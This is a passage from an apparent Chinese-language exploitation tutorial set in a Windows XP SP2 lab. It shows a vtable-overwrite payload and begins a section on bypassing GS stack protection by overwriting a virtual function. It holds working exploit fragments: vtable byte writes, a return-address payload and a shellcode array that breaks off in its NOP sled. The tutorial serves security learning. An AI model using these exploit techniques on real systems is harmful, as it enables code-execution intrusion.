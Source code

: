 源码作如下修改
```
p_vtable[0]=0x5c;
p_vtable[1]=0x0e;
p_vtable[2]=0x41;
p_vtable[3]=0x00;
```

shellcode最后的4 byte修改成0x00410ddc
```
"\xdc\x0d\x41\x00"
```

注释掉int 3断点,再编译运行一遍, pwn~
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x006-006.png)


## 0x007 覆盖虚函数突破GS

>[分析环境]  
>系统: Windows XP Professional sp2  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>说明: 《0Day》上是覆盖1 byte就能达到效果, 简便起见这里覆盖4 byte。

新建一个工程, 贴入以下代码
```
#include <string.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```